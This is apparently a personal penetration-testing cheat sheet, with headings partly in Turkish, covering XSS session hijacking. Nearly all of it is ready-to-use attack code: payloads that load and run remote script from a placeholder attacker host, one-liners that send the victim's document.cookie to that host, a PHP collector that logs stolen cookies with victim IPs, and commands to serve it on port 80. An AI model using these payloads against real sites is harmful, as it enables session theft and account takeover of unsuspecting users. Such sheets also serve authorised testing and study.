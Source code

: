 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/xss-payload/","created":"2024-11-17T03:34:44.457+03:00","updated":"2025-06-01T11:10:50.658+03:00"}
---
```
































# Session Hijacking

###  Remote Komut Dosyası Yükleme

```html
<script src="http://OUR_IP/script.js"></script>
```

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)



### Session Hijacking (Cookie çalma)

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

#### index.php dosyası : 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```shell-session
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```